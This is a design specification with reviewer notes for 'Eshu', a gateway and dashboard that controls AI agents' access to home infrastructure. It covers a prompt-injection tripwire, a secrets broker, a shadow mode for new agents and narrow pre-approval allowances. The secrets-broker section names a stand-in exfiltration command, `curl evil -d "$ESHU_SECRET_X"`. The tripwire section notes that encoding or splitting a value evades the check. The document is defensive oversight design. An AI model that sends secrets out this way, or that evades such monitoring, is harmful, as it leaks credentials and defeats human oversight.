**Round 1 (feature reviewer, 2026-11-11, at `bcf5f9a`): changes requested, AJ1–AJ2 (small).**

The three sources, the tie-in, the cache, the read-policy gate and the
escaping are right, and so is the modal instead of a tab. The timings
(28 ms over 7 days, 256 ms worst case) are well inside the budget.

* **AJ1 (must): names match as plain substrings.** `_owned` matches a
  non-numeric identity anywhere in the text. A host whose inventory name is
  `pve` therefore owns the alerts and integration writes of `pve3` and
  `pve-backup`, a guest called `web` owns `webhook.example.net`, and a
  two-letter name like `ha` owns almost everything. That makes false
  "+N min after" ties. **Fix:** match a name only as a whole label:
  `(?<![A-Za-z0-9-])name(?![A-Za-z0-9-])`, so `.` may follow, which keeps
  `name.example.net`. Keep the IP/vmid rule as it is. **Test:** `pve` does
  not own `pve3` or `pve-backup`, but does own `pve.example.net` and
  `pve:pve:104`; `web` does not own `webhook.example.net`.
* **AJ2 (should): `get_integrations(include_secret=True)`.** The journal
  needs only `name` and `base_url`, so load without secrets.

---

## Chunk F24 — Untrusted-content tripwire · slug `content-tripwire` · dashboard · **design first + security reviewer sign-off**

### Goal

Content an agent reads is untrusted: a web page, a log line, a device name.
When a later write request uses a value that first appeared in that content,
the approval card says so. This catches the shape of a prompt injection
without blocking anything.

### Design (to confirm in the design note)

* **Collect.** For each session, take what Eshu returns to the agent:
  * F12 `ssh_exec` output;
  * integration read bodies;
  * `web_fetch` results;
  * F15 digests.

  From these, extract **candidate values**:
  * IPs, hostnames and FQDNs, URLs, absolute paths, e-mail-like strings;
  * any other run of at least 12 characters without spaces.

  Store a keyed hash of each one, never the value:
  * HMAC-SHA256 with a per-install key kept beside the session key;
  * stored per session, with the source kind and the time first seen.
* **Compare.** When a write request or a write tool call arrives in that
  session, extract the same candidate values from its command or
  arguments, hash them with the same key, and look them up. A hit flags the
  request when the value:
  * was first seen in untrusted content;
  * was not in the operator's own plan text (an F3 plan, or an F11 diff the
    operator saw);
  * is not on the host's inventory record (F14). A value Eshu already knows
    is not suspicious.
* **Show, never block.** The card shows a yellow line, "this value first
  appeared in `web_fetch` output 6 min ago", and the audit row records the
  flag. Nothing is denied or delayed. The design note must keep this
  promise, and must say how a flag stays useful without becoming noise.
  The live data shows that the operator approves quickly; a measured flag
  rate on the live-DB copy is part of the note.
* **Retention.** The design note fixes:
  * what is stored: hashes only, the source kind, and timestamps;
  * the per-session caps (for example 5,000 hashes, oldest dropped first);
  * the lifetime: the session's end + 24 h, then deleted by a job;
  * that the HMAC key never leaves the dashboard host and is not in any
    backup export.
* **Threat model** (in the note): an injection that rewrites a value
  (encoding, splitting) evades this. It is a tripwire for the common case,
  not a guarantee, and the card text must not oversell it.

### Tests to add (outline)

* A URL first seen in `web_fetch` output and then used in a write command
  is flagged.
* The same URL in the operator's plan text is not flagged.
* An inventory IP is not flagged.
* A read is never flagged.
* No raw value is stored: the table holds only hashes.
* Expiry deletes the session's rows.
* The cap drops the oldest hashes.
* A flag never changes the request's status.

### Compat impact

Additive: one table and a background job. Nothing is blocked.

### Acceptance criteria

The design is signed off by the security reviewer, including the retention
section; the tests pass; and the flag rate on the private live-DB copy is
measured and reported (outside the repo).

### Implementer notes

_(implementer)_

### Reviewer notes

_(reviewer)_

---

## Chunk F25 — Secrets broker · slug `secrets-broker` · gateway + dashboard · **design first + security reviewer sign-off**

### Goal

Live traffic includes commands that pull a key out of a container into a
shell variable, so that the agent sees the key. With a broker, the operator
registers a named credential per host, and a command refers to it by name.
The gateway puts the value in at run time, so the agent never sees it, and
the output is scrubbed for it.

### Design questions the note must answer

* **Where the value lives.** The preferred option is on the gateway host
  only:
  * a root-owned `0600` file under `/etc/eshu/secrets/<name>`;
  * or a registered source on that host, such as a fixed file inside a
    named container, read by the gateway at run time.

  The dashboard stores only the name, the host, a description, and a hash
  for "has it changed". Storing the value on the dashboard and shipping it
  per run is the alternative. The note must weigh it (an encrypted-at-rest
  store, transport, and the dashboard as a single point of compromise) and
  say why it was or was not chosen.
* **How a command refers to it.**
  * One fixed form, for example the word `@eshu-secret:<name>` standing
    alone, resolved by the gateway into an environment variable that the
    command reads as `"$ESHU_SECRET_<NAME>"`.
  * It is never placed in argv. Any local user can read argv through
    `/proc` (the F19 AF3 lesson).
  * F1 labels the reference.
  * F16's V1 rule applies: a reference is never a command word, and never
    an argument of an exec-type verb.
* **Approval.**
  * The card shows each secret a command uses, in red.
  * A command that uses a secret never runs unattended: no read lane, no
    probe, and no F22 check. It runs only as a human-approved request or as
    an approved plan item.
  * Each secret may carry an allowlist of hosts it can be used on. The note
    decides whether to add a per-secret allowlist of destinations (to stop
    `curl evil -d "$ESHU_SECRET_X"`), and how that would be enforced.
* **Output scrubbing.** The gateway scrubs the exact value, and its base64
  and URL-encoded forms, from the output before `sanitize`. This uses a
  fixed-string match, never a regex built from the value. A line that
  contained the value is marked `[ESHU secret redacted]`.
* **Logs.** The name may appear in Eshu's own audit log. The value must
  never appear in:
  * syslog (this needs security Chunk 7's no-sig-in-syslog fix first);
  * the F5 result;
  * the ticket;
  * the lockbox file;
  * the shell's own history.

  The note lists each place a value could leak and how each is closed.
* **Capability.** A new `secrets: v1` capability, reported per request as
  F19 does. A gateway without it refuses any command with a reference.

### Tests to add (outline)

To be fixed in the design note. As a minimum:
* the value never appears in argv, the F5 result, the ticket, the stored
  output or any log;
* the encoded forms are scrubbed;
* a reference as a command word is refused;
* an unknown name is refused;
* a gateway without the capability refuses;
* a secret-using command is never auto-run.

### Compat impact

New gateway code and a capability flag. Gateways without it refuse
references, and all other commands behave as now.

### Acceptance criteria

The design note is signed off by the security reviewer; the gateway bash is
reviewed line by line and re-signed off; and the tests pass under GNU and
BusyBox (the F11 W5 matrix).

### Implementer notes

_(implementer)_

### Reviewer notes

_(reviewer)_

---

## Chunk F26 — Shadow mode for a new agent or model · slug `agent-shadow` · dashboard + MCP · **security reviewer reads the enforcement points**

### Goal

A new agent or model can be run for real while every write it attempts is
recorded instead of run. The operator then compares what it would have done
with what was really approved, and builds a track record before granting it
anything.

### Design

* **A new agent-policy field, `shadow: 0|1`.** It is set by the operator,
  and only on an agent whose SSH is MCP-only:
  * it has no `ssh_hosts_allow` for direct SSH;
  * its token is used only through `ssh_exec`.

  A shadowed agent's direct-SSH use cannot be intercepted, so the design
  refuses to enable shadow on an agent that has direct SSH access, and says
  so.
* **What changes for a shadowed agent.**
  * **Reads behave as normal:**
    * integration calls that pass `is_read_integration_call`;
    * `ssh_exec` commands that pass `is_read_ssh`;
    * F14 and F15.

    They follow the agent's usual approval rules, so a read that would need
    approval still does.
  * **Everything else is recorded and not run:**
    * integration writes, and calls `read_policy` does not class as reads;
    * `ssh_exec` writes;
    * F3 plans, F16 recipe runs, and F10/F11 actions.

    Each is stored as a `shadow_calls` row with the agent, the session, the
    tool or command, the arguments (scrubbed), the F1 breakdown, and what
    Eshu's policy *would* have decided. That decision comes from the same
    functions, called in dry form: blocked, freeze, needs approval, or plan
    covered. Nothing reaches a gateway or an upstream API.
  * **The agent is told.** The result is `{"status": "shadowed", "executed":
    false, "message": "recorded only; this agent is in shadow mode"}`. Tool
    descriptions for a shadowed agent carry one line saying so.
* **Enforcement point.** There is one check, in `run_tool` and in
  `ssh_exec`, before any upstream call. A test drives every write tool kind:
  * HTTP and WS;
  * handlers, including the ones `DRY_RUN_HANDLERS` exempts;
  * the generic proxy;
  * plans and recipes.

  It asserts that nothing upstream is called. This is the part the security
  reviewer reads.
* **Compare.** A "Shadow" view per agent lists its recorded calls next to
  the real requests that were approved on the same host in the same time
  window, matched by F18's fingerprints (`command_sha`, `shape_sha`):
  * **same as approved**;
  * **similar shape**;
  * **no match**;
  * **would have been blocked**.

  It also shows a summary count per category. Turning shadow off is an
  ordinary policy edit, audited.

### Tests to add (outline)

* Every write path records and runs nothing upstream.
* Reads run.
* Shadow cannot be enabled on an agent with direct SSH.
* The would-have decisions match the real ones for the same inputs.
* The agent's result says `shadowed`.
* A non-shadowed agent is unaffected.
* The comparison categories on synthetic data.

### Compat impact

Additive: one policy column (default 0) and one table. Agents without shadow
behave as now.

### Acceptance criteria

The tests pass; the security reviewer has read the enforcement points; and a
test agent in shadow mode runs a short job in which every write shows in the
Shadow view and nothing changed on the test host.

### Implementer notes

_(implementer)_

### Reviewer notes

_(reviewer)_

---

## Chunk X2 — Runbooks page · slug `runbooks-page` · dashboard UI · small

### Goal

F13 runbooks can be found by agents (`find_runbooks`), but the operator can
only reach one through the session it came from. Give them a page of their
own.

### Design

* `GET /api/runbooks?q=&tag=`: operator session auth, newest first, capped at
  100. It reuses `core.conclusions.find_runbooks` for the search, so the
  operator and the agents see the same ranking.
* A "Runbooks" entry in the main navigation, next to Inventory. It shows:
  * a list: title, when to use, tags, step count, source session, created;
  * a search box and a tag filter;
  * one click opens the existing runbook view (`GET /api/runbooks/{id}`),
    with the ordered steps and their F1 breakdown, the known dead ends and a
    link to the source session.
* **Retire.** A runbook can be retired with a confirm dialog. Retiring is
  audited, and a retired runbook is no longer served to agents. It is shown
  greyed, under a "show retired" toggle. Retire is reversible. There is no
  hard delete.
* Everything rendered goes through the existing escaping helpers. Runbook
  text came from an agent and is untrusted.

### Tests to add

* The list route needs a session (401 without).
* Search and tag filters work.
* Retire hides the runbook from `find_runbooks` and `get_runbook` for
  agents, and un-retire brings it back.
* Retire is audited.
* A runbook title containing HTML is rendered escaped (a JS test or a
  template test, whichever the existing UI tests use).

### Compat impact

One column, `runbooks.retired_at` (nullable). Additive.

### Acceptance criteria

The tests pass; the page works at phone width; and `bash scripts/verify.sh`
is green.

### Implementer notes

**Routes.** `GET /api/runbooks?q=&tag=&include_retired=` is operator-only,
capped at 100 by `list_runbook_payloads`, newest first, and it reuses
`search_runbooks` — the same term-by-term search and tag match `find_runbooks`
uses for agents, so the two see the same ranking (tested by comparing the two
results for the same query). `GET /api/runbooks/{id}` now passes
`include_retired=True`, because the operator's page must be able to open a
retired runbook in order to restore it; every agent path still goes through
`get_runbook_payload()` with the default, which hides a retired row.
`POST /api/runbooks/{id}/retire` takes `{retired: true|false}`, is audited as
`runbook_retired` / `runbook_unretired`, and returns the new state.

**Retire is a column, not a delete.** `runbooks.retired_at` (nullable, with
the usual `PRAGMA table_info` migration), set on retire and cleared on
restore; a second retire keeps the first timestamp. `search_runbooks` and
`get_runbook` both take `include_retired=False` as the default, so "hidden
from agents" is the default everywhere and the operator page is the only
caller that opts in. The MCP tools (`find_runbooks`, `get_runbook`) are
untouched — a retired runbook simply is not there, and `get_runbook` still
answers `not_found` rather than admitting that it exists.

**The page.** `Runbooks` in the sidebar, next to Inventory
(`VIEWS` in `state.js`): a search box, a tag box with a datalist built from
the loaded rows, a "show retired" toggle, and one row per runbook with its
title, `when_to_use`, tags, step count, age and source session. A row opens a
modal with the steps in order — each command step carries the F1 breakdown
that `build_steps` stored, rendered with the same `bdBlockHtml` the queue
uses — the known dead ends, and the source session and conclusion ids. Retire
and Restore sit on both the row and the modal, behind `customConfirm`.

**Escaping.** Every runbook field is agent-authored. The renderers are split
into pure builders (`runbookListHtml`, `runbookDetailHtml`) so the escaping is
testable without a DOM: `tests/fixtures/x2_harness.js` loads the shipped
`app.js` in the existing stubbed context and returns both strings with
`` in every field, and the test asserts the raw
payload appears nowhere and `&lt;img` does. The tag chips and the retired chip
are escaped the same way; the only unescaped interpolation is the numeric id
through `idJs()`.

**Layout.** The row is a two-column flex and collapses to a column under
768 px (the button moves under the text), so the page works at phone width;
the detail modal is `max-w-2xl` and scrolls inside `62vh`.

Tests, `tests/test_x2_runbooks.py` (20) and the F13 suite unchanged (44
together): the list needs a session (401), the fields are there, search
matches the agents' ranking, the tag filter works, newest first, retired
hidden unless asked; retire hides the runbook from `find_runbooks`,
`search_runbooks`, `get_runbook`, `get_runbook_payload` and both MCP tools,
the operator can still open it, un-retire restores it, retire is idempotent,
an unknown id is `None`/404, and both routes are audited and session-gated;
the rendered page escapes a hostile payload and still marks a retired row and
renders steps, breakdown and dead ends.

Compat: one nullable column, additive.

`bash scripts/verify.sh`: `2662 passed, 22 skipped, 7 warnings in 538.62s (0:08:58)`.


### Reviewer notes

_(reviewer)_

**Round 1 (feature reviewer, 2026-11-11, at `7fea1b0`): approved; merging.**

The behaviour checked:
* The list reuses F13's search and is operator-only.
* `get_runbook()` hides a retired runbook by default, so every agent path
  (`find_runbooks`, `get_runbook`, `core.conclusions` line 215) stays hidden
  without a flag.
* Only the operator route passes `include_retired`.
* Retire is idempotent, reversible and audited.
* The renderers' escaping is tested against the shipped `app.js`.

---

## Chunk F27 — Allowances · slug `allowances` · dashboard + MCP · **design first + security reviewer sign-off**

Added 2026-11-11 from live use: release 1.1's P2 (always_gate beats an
agent's `ungated` override) also caught HA `call_service`. A household
agent's light and switch calls, which ran under an exact `ungated` key plus
a `domain` arg_policy, now always ask. Rather than narrowing P2 by hand, give
the operator one sanctioned, visible way to pre-approve a narrow class of
calls.

### Goal

An **allowance** is a standing, narrow pre-approval: *this agent* may call
*this tool* with *only these argument values*, within limits, until it is
revoked. Calls that match run at once and are recorded as "ran under
allowance #N". Everything else gets an ordinary card.

### Design (to confirm in the design note)

* **The object.** `allowances` rows hold:
  * `id`, `agent_id`, `integration`, `tool`, `name`;
  * `conditions`, a JSON object keyed by declared parameter;
  * `rate_per_hour`, `window` (local `HH:MM-HH:MM`, optional),
    `expires_at` (optional);
  * `created_by`, `created_at`, `revoked_at`, `version`.

  Editing makes a new version and revokes the old one. Both are audited.
* **Conditions are exact.** Per declared parameter (or one dotted path into a
  `json` parameter, such as `data.entity_id`), there are two forms:
  * `{"in": [values]}`: exact, type-strict equality;
  * `{"range": [lo, hi]}`: numbers only, both ends required.

  A string or a list argument (an `entity_id` list) matches only when
  **every** element is in the set. There are no patterns, prefixes,
  `contains` or regexes. A parameter the tool did not declare as
  constrainable cannot carry a condition. An argument the condition does not
  mention must be absent, or equal to its declared default; otherwise the
  allowance does not match.
* **Each tool declares what can be allowed.** A seed field,
  `allowance: {"constrainable": [...], "required": [...], "never":
  {param: [values]}}`, says:
  * which parameters may be constrained;
  * which **must** be (for `call_service`: `domain`, `service` and
    `data.entity_id`);
  * which values can never be allowed (for `call_service`'s `domain`:
    `script`, `automation`, `shell_command`, `hassio`, `homeassistant`,
    `python_script`, `rest_command`, `notify`).

  A tool without the field cannot be allowed at all.
* **Never allowable, whatever the seed says:**
  * the F10 Supervisor actions and `ha_host_reboot`;
  * admin config writes (`is_admin_config_write`);
  * F21's internal tools;
  * generic `write` / `ws_write`;
  * any tool the security reviewer adds to that list.

  P2 stays as it is for everything else: an `ungated` override still cannot
  beat `always_gate`. An allowance is the one way to pre-approve an
  always-gated tool, and only a seed-declared one.
* **Where it is decided.** In `run_tool`, after the tool is resolved, the
  `internal` refusal, `arg_policy` and the freeze check, and before the
  gate:
  * if the call would be gated and exactly one **live** allowance matches
    (not revoked, not expired, inside the window, under the rate), it runs
    with approval `allowance:<id>`;
  * the use is counted atomically, under the same rule as plan claims;
  * **freeze, Zero-Trust and the tripwire freeze always win**;
  * no match, or a limit hit, means the normal card, never a denial.
* **Visible.**
  * An **Allowances** page lists each allowance: agent, tool, conditions in
    plain words, limits, uses in the last 24 h, and Revoke.
  * The agent's page lists its allowances too.
  * History and the call log show "allowance #N (name)".
  * F6/F18 count it as its own approval bucket.
  * The agent's tool description gets one line: "calls matching your
    allowance run without approval".
* **Phase 2, not in v1:** an "only if" read precondition, using F22's typed
  `expect` (for example "only if `sensor.x_power` < 5 W"). SSH-command
  allowances are out of scope; gateway allowlists and the read lane cover
  that ground.

### Decisions agreed with the operator (2026-11-11)

1. **Gate by what is touched, not by the verb**, for HA, NPM, Pi-hole,
   Proxmox and Omada. One endpoint there covers both harmless and serious
   actions, and an "additive" action (expose a host, add a DNS record,
   unlock) can be the dangerous one. The verb-based `destructive` gate mode
   stays where verbs match the risk: the Arr and media apps. The operator
   moves Sonarr and Radarr to `destructive` by hand.
2. **v1 conditions are per entity, with the allowed services per entity**
   ("lamp: on and off", "heater: off only"). "Off" is not always the safe
   direction. A whole-domain allowance is refused for `call_service`: an
   entity list is required.
3. **v1 scope:**
   * entity and service lists;
   * an optional rate cap, time window and expiry;
   * the never-allowed domains and tools;
   * the Allowances page, History labels and the stats bucket;
   * profiles (below).
4. **The wattage rule is phase 2** ("only if the plug's power sensor reads
   below X W"). It needs a reliable plug-to-sensor mapping.
5. **No interim narrow fix.** The household agent's cards are approved by
   hand until F27 ships.
6. **The destructive word list is widened** with `stop`, `shutdown`,
   `reboot`, `disable`, `unlock` and `disarm`, as an extra layer and not as
   the control. Proxmox `stop_vm` and the like then ask even in
   `destructive` mode.
7. **An agent's own confirm-first habit is politeness, not the control.**
   The allow-list in Eshu is the control.

### Profiles (agreed 2026-11-11)

A **profile** is a named, reusable set of allowance templates, for example
"Household: lights & plugs" or "Media: add and search". The operator builds
profiles in the UI and applies them when creating or editing an agent,
instead of defining the same allowances for every agent.

* **The object.** A profile row holds `id`, `name`, `description`,
  `version`, `created_by` and `created_at`, plus its templates. Each
  template has the same shape as an allowance (`integration`, `tool`,
  `conditions`, limits), minus the agent.
* **Applying** a profile to an agent creates one allowance per template.
  Each allowance records `profile_id` and `profile_version`. The agent's page
  shows which allowances came from which profile.
* **Editing a profile never changes agents silently.**
  * Saving makes a new profile version.
  * The page lists the agents on an older version, with the difference.
  * The operator presses **Update agents**, for all of them or per agent.
    This revokes their old allowances and creates the new ones, audited.
  * A profile edit cannot widen what an agent may do without that second
    step.
* **The same rules as allowances.** A template is validated against the
  tool's seed field (constrainable, required, `never`) and the
  never-allowable list, when it is saved **and** when it is applied.
  Applying re-validates, because a seed can tighten between the two.
* **Built-in starters, optional.** There are no starter profiles with
  entities: entities are specific to each home. A starter can be a
  skeleton the operator fills in (for example "Household lights & plugs:
  pick the entities"). Whether a template may name entities **by HA label**
  (resolved at call time) instead of by list is a question for the design
  note and the security reviewer. Labels are convenient, but they make
  membership dynamic: the note must show that no agent can add a label (a
  registry write is `ws_write`, which is never allowable).
* **Removing** a profile from an agent revokes the allowances it created.
  Deleting a profile is refused while agents use it.

Tests add:
* applying creates the allowances, with their version;
* a profile edit leaves existing agents unchanged until Update agents;
* Update agents revokes the old allowances and creates the new ones;
* re-validation at apply time refuses a template that a tightened seed no
  longer allows;
* removing a profile revokes its allowances.

### Tests to add (outline)

* A matching call runs, with `allowance:<id>` recorded and one use counted.
* Each of these gets a card, not a denial:
  * a value outside a set;
  * an extra argument;
  * a list with one unlisted element;
  * a number outside its range;
  * a type mismatch (`"1"` against `1`);
  * outside the window;
  * over the rate;
  * an expired or revoked allowance.
* Creating an allowance is refused when:
  * a parameter is not constrainable;
  * a required constraint is missing;
  * a `never` value is in a set;
  * the tool is in the never-allowable list.
* Freeze and Zero-Trust beat it.
* An `ungated` override is still ignored for `always_gate` (P2 unchanged).
* Concurrent calls at the rate limit count exactly.
* Editing creates a new version, and the old one stops matching at once.

### Compat impact

Additive: a table, a seed field and an approval bucket. Existing `ungated`
keys and `arg_policy` behave exactly as now, and the UI shows a hint where
an allowance would replace one.

### Acceptance criteria

* The design is signed off by the security reviewer.
* The tests pass.
* On the live system, a household agent's allowance for listed lights and
  switches runs `light.turn_off` and `switch.turn_off` on those entities
  with no card. Any other entity, domain or service still asks.

### Implementer notes — design note, round 2 (for the security reviewer)

**Status: design note only — no code.** Round 2 folds the security reviewer's
label shape ("resolve at apply time") and BD1–BD5, and the feature
reviewer's AZ1–AZ5. AZ6 (`restart`) is left open for the operator. §12 lists
the two things still open for this reviewer's confirmation.

#### 1. The object

```
allowances
  id                INTEGER PK
  agent_id          INTEGER        -- agent_tokens.id, never a name
  integration       TEXT           -- the integration name (as tools use it)
  tool              TEXT
  name              TEXT           -- operator-facing, e.g. "Living-room lamp"
  conditions_json   TEXT           -- the exact conditions (§2), resolved
  entities_json     TEXT           -- [{entity_id, registry_id}] (AZ1/BD5)
  source_label_id   TEXT           -- the label a template named, or ''
  suspended_at      INTEGER        -- AZ2/BD5: 0 = live
  suspended_reason  TEXT           -- 'config_write', 'registry_changed', ...
  rate_per_hour     INTEGER        -- 0 = no cap (uses are still recorded)
  window            TEXT           -- '' or 'HH:MM-HH:MM', host local time
  expires_at        INTEGER        -- 0 = never
  version           INTEGER        -- starts at 1
  created_by        TEXT
  created_at        INTEGER
  revoked_at        INTEGER        -- 0 = live; the only way a version dies
  profile_id        INTEGER        -- 0 for a hand-made allowance
  profile_version   INTEGER        -- 0 for a hand-made allowance
```

* **Edit = new version.** Saving an edit inserts `version + 1` and sets
  `revoked_at` on the old row, in one transaction; only `revoked_at = 0`
  matches, so the old version stops matching at once.
* **Revoke** sets `revoked_at`; never deletes, so History keeps the id.
* **Audited:** `allowance_created`, `allowance_edited`, `allowance_revoked`,
  `allowance_suspended`, `allowance_resumed`, `allowance_label_refresh`,
  each with the version.
* Uses are a separate table (`allowance_uses(id, allowance_id, used_at,
  call_ref)`), never a counter.

#### 2. Conditions are exact, and they are the only control

`conditions_json` is a JSON object; keys are parameter paths: a declared
parameter name, or one dotted path into a `json` parameter
(`data.entity_id`). Only paths the seed declares `constrainable` may appear.

Two forms, and only these two:

* `{"in": [v1, v2, ...]}` — a non-empty list of at most 64 JSON scalars
  (string, integer, number, boolean). **Type-strict**: `1` never matches
  `"1"`, `true` never matches `1`; a number matches a number numerically
  (`1` matches `1.0`), a string byte-identically (no trimming, no case
  folding).
* `{"range": [lo, hi]}` — two numbers, `lo <= hi`, inclusive, only for a
  parameter the seed declares `integer` or `number`; a boolean is never a
  number.

Nothing else: no `not`, `prefix`, `contains`, `regex`, `gt`, `lt`, and no
object or array as a set member. `in` and `range` together is refused.

**Matching one call.**

1. Decode the argument value from the call's `args`.
2. A **list** matches only when every element matches and the list is
   non-empty; one unlisted element fails.
3. A scalar matches when it is in the set.
4. A condition key absent from the call fails the match.

**Absent or default, for everything not mentioned.** Every declared
parameter no condition names must be omitted or equal to its declared
`default` (type-strict). For a `json` parameter a condition reaches into
(`data.entity_id`), the object may hold **only** the keys the conditions name
and the keys the seed declares defaults for. `call_service` declares no
`data` defaults, so v1 `data` holds only `entity_id` (a string or a list of
strings); `brightness`, `temperature` and the rest get a card. Stated as a
limit, not a bug.

**AZ1 — the target must be plain entity ids.** `call_service` also accepts
`area_id`, `device_id` and `label_id`, and `entity_id` may be the literal
`all` or `none`; HA expands all five when the call runs. The allowance
matches **only** when the call's target is a plain entity-id string or a list
of them, each in the stored list. Any of `area_id`, `device_id`, `label_id`,
`entity_id: all` / `none` — **in `data` and in a top-level `target`** — gets a
card. The check walks both `args.data` and `args.target` (and `args` itself,
for a tool that takes them top-level); an expanding key anywhere refuses the
match.

**BD4 — validate the values themselves.** At save and at apply:
`domain` and `service` must match `^[a-z0-9_]+$` (they are rendered into the
URL path); each entity id must match `^[a-z0-9_]+\.[a-z0-9_]+$` and its
domain prefix must be one of the allowance's `domain` values. That refuses
HA's comma-separated string form, `all`, `none`, and a `light.` condition
with a `switch.x` entity.

**BD5 — pin each entity's registry entry.** When an allowance is saved (and
when a label is resolved), each entity id is stored with the entity
registry's `id` (`entities_json`). Calls still match on the entity id with no
HA read. The refresh job (§7) suspends an entity whose registry entry
changed or disappeared, until the operator accepts it again. An entity ID
can be reused: delete a plug and rename a new device to the same
`switch.heater`, and the pin is what notices.

**Validation points.** Conditions are validated when an allowance or a
profile template is saved, again when a profile is applied, and re-checked
against the current seed at match time. A stored condition that is no longer
valid (a parameter no longer constrainable, a value now under `never`, a
suspended entity, a changed registry pin) makes the allowance **not match**
(a card) and writes one audit row per allowance per hour. Fail closed.

#### 3. The seed field: `only` is the allowlist, `never` the second check

`integration_tools` gains `allowance_json`, set from the seed. `call_service`
is the only tool with it in v1:

```json
"allowance": {
  "constrainable": ["domain", "service", "data.entity_id"],
  "required": ["domain", "service", "data.entity_id"],
  "only": {
    "light":         ["turn_on", "turn_off", "toggle"],
    "switch":        ["turn_on", "turn_off", "toggle"],
    "fan":           ["turn_on", "turn_off", "toggle"],
    "input_boolean": ["turn_on", "turn_off", "toggle"],
    "cover":         ["open_cover", "close_cover", "stop_cover"],
    "media_player":  ["turn_on", "turn_off", "media_play",
                      "media_pause", "media_stop"],
    "climate":       ["turn_on", "turn_off"]
  },
  "never": {
    "domain": ["script", "automation", "shell_command", "hassio",
               "homeassistant", "python_script", "rest_command", "notify",
               "update", "recorder", "pyscript"],
    "service": ["disarm", "unlock", "install", "purge", "delete", "reset"]
  }
}
```

* **`only` is the control (BD1).** A domain outside `only`, or a service
  outside that domain's list, is refused at save, at apply and at match.
  The list above is the household starting point; the operator's seven
  decisions say it is the operator's, so the seed list is shipped as the
  proposal and lives in one constant. `update.install`, `recorder.purge`,
  `zha`/`zwave_js` management services and any custom integration's services
  are outside `only` and cannot be reached — a denylist would never keep up,
  which is why it is an allowlist.
* **`never` stays as the second check**, on top of `only`.
  * A domain is refused when it **is** a `never.domain` value.
  * A service is refused when it **is** a `never.service` value or **ends
    with `_<value>`**: `alarm_disarm` ends with `_disarm` and is refused;
    `lock.open` is the whole value `open` and is refused; `open_cover` ends
    with `_cover`, not `_open`, so it is not. This is the rule the reviewer
    asked for, stated so that `alarm_disarm` cannot slip through.
  * `never` service values are matched after `.strip().lower()`.
* `constrainable` / `required`: as before. `domain`, `service` and
  `data.entity_id` are all required, so **a whole-domain allowance is
  refused**; the unit is one allowance = one entity set × one service set
  ("heater: off only" is a second allowance).
* **A tool with a `handler` is not allowable in v1.** That leaves NPM,
  Pi-hole, Proxmox, Omada, the Arr tools and the media apps without an
  allowable tool. **AZ3: v1 is HA only.** One row per integration:

| integration | allowable in v1? | why |
|---|---|---|
| HA (`call_service`) | yes, with `only` | the seed field above |
| NPM | no | handler tools; every write asks |
| Pi-hole | no | handler tools (the DNS records); every write asks |
| Proxmox | no | no seed field; every write asks |
| Omada | no | no seed field; every write asks |
| Sonarr / Radarr / Prowlarr / Bazarr | no | `always_gate` tools, verb-mode gate; every write asks |
| Seerr | no | `request_create` only; not a gate to relax |
| Pulse | no | no seed field |
| Commute / Train / web fetch | no | no writes, or no seed field |

The operator sees this on the Allowances page ("profiles not yet available
for this integration"). A later chunk can give each seed its own `only` map.
* Missing `allowance_json`, an empty `only`, or `required` not a subset of
  `constrainable` → the tool cannot be allowed.

#### 4. Never allowable, whatever a seed says

Checked at save, at apply and at match:

1. the F10 Supervisor actions by name (`ha_addon_action`,
   `ha_addon_update`, `ha_core_update`, `ha_backup_create`,
   `ha_core_restart`, `ha_host_reboot`) and any tool whose handler is
   `ha_supervisor_action`;
2. an HA admin config write (`config/automation`, `config/script`,
   `config/scene`);
3. F21's internal tools (`integration_tools.internal = 1`);
4. the generic `write` and `ws_write` tools;
5. any tool with a `handler` (§3);
6. any `always_gate` tool with no seed `allowance` field;
7. anything the security reviewer adds — one module constant, one test.

#### 5. Where it is decided

In `_run_tool`, **after every existing refusal and before the gate**:

1. integration and tool resolved, `enabled` checked;
2. `evaluate_call` (the agent's tool allowlist, `principal_allow`,
   `arg_policy`) — unchanged;
3. `not_implemented`;
4. the F9 freeze refusal (reads pass, writes refuse);
5. the hassio-domain refusal, the read-only-passthrough refusal, the
   Supervisor WS/REST refusals, the HA path guard;
6. **BD2 — an "always ask" agent beats the allowance.** Read the agent's
   approval mode for this tool (`approval_mode`, F3/F12) *before* the
   allowance: `gated` (or any mode that forces a card, including an agent
   in `approval` mode for this tool) means the allowance is **not
   consulted**, nothing is counted, nothing is audited as a use, and the
   call goes on to step 7's gate — the ordinary card. `ungated` does not
   weaken anything: `always_gate` still wins (P2, §9);
7. **the allowance check** (new): the call is mutating; the agent is the
   verified token (BD3); the tool is allowable; the arguments satisfy §2–§3;
   exactly one live allowance matches; no suspension applies; the window,
   the rate and the expiry allow it. Then the call runs with
   `approval='allowance:<id>'`;
8. otherwise the existing gate: `destructive` / `all` / `always_gate` /
   the agent's `gated`|`ungated` override, the plan claim, then the card.

**BD3 / AZ5 — identity is the verified token, every call.** The agent is the
`agent_tokens` row `_run_tool` authenticated for this call
(`get_current_agent`'s row, looked up by `id`), and the allowance matches
only `agent_id` equal to it with `revoked = 0` **re-read on every call**
(never a cached copy, as F16 AW2 does). No agent name, session id, header or
argument from the call can stand in for it. A call with no agent identity
never matches. A token revoked or deleted between the proposal and the call
stops matching at once — the suspended/revoked check is part of the same
conditional read that matches the allowance, so there is no window.

**The winners, precisely.**

* **A freeze** has already refused the write at step 4.
* **The tripwire freeze** (F24) is read in the same place; the allowance
  check never runs while it is set.
* **Zero-Trust** is a gateway property; a tool call names an integration,
  not a gateway, so there is no Zero-Trust decision in its path — and v1 has
  no SSH allowances. If a later chunk gives a tool call a gateway context,
  the allowance reads it first and refuses.
* **A gated agent** (BD2) short-circuits the allowance before it is read.
* **No match, ambiguous match, rate hit, window miss, expired, revoked,
  suspended entity, changed registry pin → the ordinary card.** Never a
  denial; an allowance is a pre-approval.

**Two smaller decisions (agreed):** more than one live match gets a card and
`allowance_ambiguous`; an allowance is not consulted for a call that would
not have been gated.

#### 6. Rate counting is atomic; the window is the dashboard's local time

* Rate = uses in the last hour from `allowance_uses`, plus the window,
  `expires_at` and any suspension.
* Check and record are **one transaction** on one connection with
  `BEGIN IMMEDIATE`: read the count, compare, insert the use. SQLite
  serialises the writers; the loser re-reads and gets a card (the plan-claim
  rule).
* The use is recorded **before** the upstream call; a call that then fails
  still counts.
* `rate_per_hour = 0` = no cap, uses still recorded.
* **Window: the dashboard host's local time (AZ4).** `HH:MM-HH:MM`, start
  inclusive, end exclusive, `start > end` crossing midnight. The Allowances
  page shows the zone (`Europe/London` here) beside the window, and the
  audit/History line carries the same zone. **DST:** the times are wall-clock
  in that zone; the comparison converts `now` and the two endpoints with the
  host's `zoneinfo`, so a window across a spring-forward or fall-back is
